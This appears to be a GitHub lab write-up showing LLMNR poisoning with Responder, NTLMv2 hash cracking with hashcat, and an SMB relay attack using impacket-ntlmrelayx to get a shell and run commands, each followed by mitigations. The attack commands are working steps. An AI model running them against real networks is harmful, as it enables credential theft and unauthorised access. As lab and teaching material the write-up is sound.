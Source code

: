 Setup win2022 server: 192.168.64.138   
Setup Peterparker: \\192.168.64.140  
Setup Frankcastle: 192.168.64.139  
Kali: \\192.168.64.129/24

## 🚩 LLMNR Poisoning - Link Local Multicast resolution

**Requirements:**  
* LLMNR attack can be performed if the LLMNR/NBT-NS is enabled and the attacker machine is in the same network as the target.
* LLMNR attacks use the Responder tool which captures credentials that are broadcasted over the network when a user seek connection to a another service / resource that does not exists or is poorly configured. Through these vulnerabilities, Responder spoofs the request and responds by stating they know the service or resource. Requesting the victims NTLM hash.  

![image](https://github.com/user-attachments/assets/fc6902c4-acf7-4787-b2c8-607a7cd2900b)  

Commonly used tooling for LLMNR Poisoning attacks:  
Responder, Impacket, MITM6

### Capturing Hashes with Responder

Kali responder IP: 192.168.64.129/24
sudo responder -I eth0 -dwv

![image](https://github.com/user-attachments/assets/8de5ddb4-8956-4b4b-98f6-c2df1cb6ac99)  

Ensure details such as nic, responder ip, is all correct. Once responder is on the network and listening for traffic, an example of captured NTLMv2 hashes can be seen like this:

![image](https://github.com/user-attachments/assets/f4e41ca4-5d90-4b66-b181-399742def06f)

### Cracking NTLM hashes  

root@kali:/home/kali# hashcat -m 5600 ntlm.txt /usr/share/wordlists/rockyou.txt --force

![image](https://github.com/user-attachments/assets/7d5a47ce-1ef8-4cb6-9e7d-b8785a930da5)

Hash cracked.

## 🔵 LLMNR Poisoning Mitigation  

1. Disable LLMNR / NBT-NS (NetBIOS) Broadcasts.  
2. Implement NAC on the internal network.
3. Have strong password requirements for end users espicially admin or service accounts. This will also add to defense in depth.

## 🚩SMB Relay Attack - Service Message Block

SMB (Server Message Block) is a protocol used for file shares, printers, and other resources on a network. This common protocol can be abused when an attacker on the same internal network (domain and or subdomain) is actively attempting to capture the NTLM hashes transmitted over the network. Which is then maliciously relayed to a service / server, granting access since the hash is authenticated.

**Requirements:**  
* SMB signing must be disabled or not enforced on the target machine.  
* Target machine should be admin, domain admin or service accounts for maximum effect.
* Responder config files /etc/responsder/Responder.conf must have smb and https turned off, so that captured hashes are not stored but are instead 'relayed'.

![image](https://github.com/user-attachments/assets/d8f8f9fc-6393-4e74-877a-9a0a0731cc97)  

🔴 The reason why these are turned off is to prevent the authentication resposne from being captured, but rather we are attempting to 'relay' them to our targets lists.


1. Firstly identify hosts without SMB signing. 

            nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn 
      
![image](https://github.com/user-attachments/assets/52f6904d-f256-467c-9b40-414b011f57c2)

2. Once we have discovered our targets (have SMB signing disabled and not required). Create a targets.txt detailing the targets.

            nano target.txt > add target ips into file

3. Start responsder with the new edited config files.

            responder -I eth0 -dPv

5. Start ntlmrelayx.py or impacket-ntlmrelax.

            impacket-ntlmrelax -tf targets.txt -smb2support

![image](https://github.com/user-attachments/assets/ac597d69-e6d9-4da3-affa-ca352ce13850)

We have succesfully captured the NTLM hash from frankcastle with Responder and also relayed it back to the server using impacket-ntlmrelayx 

6. Gaining interactive shell with impacket.

            impacket-ntlmrelayx -tf targets.txt -smb2support -i  

![image](https://github.com/user-attachments/assets/dff22fbf-f7e3-4415-bb76-c1f9a7c42541)

Once interactive shell has been obtained as seen above, we can now bind this with netcat via the SMB shell TCP on 127.0.0.1:11000  
Once netcat has been binded to list all the available arguments that is available to be used in this specific shell environment.  

![image](https://github.com/user-attachments/assets/5ea73547-920d-4d1d-8ce7-085dadedbfc1)

7. Using command switch with impacket. 

            impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"

![image](https://github.com/user-attachments/assets/0bda36ba-980a-444a-ad6d-de4fa828981a)

SMB relay attack with -c 'whoami' flag successful

## 🔵 SMB Relay attack Mitigations

1. Enable SMB Signing on all devices.
2. Accounting Tiering (limiting specific accounts to defined tasks).
3. Local admin restriction.
4. Disable NTLM authentication (completely stops the attack however if Kerberos fails, it cannot default to NTLM authentication).


------- 
**Reference:**  

https://medium.com/@tayyabanoor1201/tcm-security-smb-relay-attack-writeup-dfc7cc113bb0

https://medium.com/@rymak/smb-relay-attack-19192e1d158c
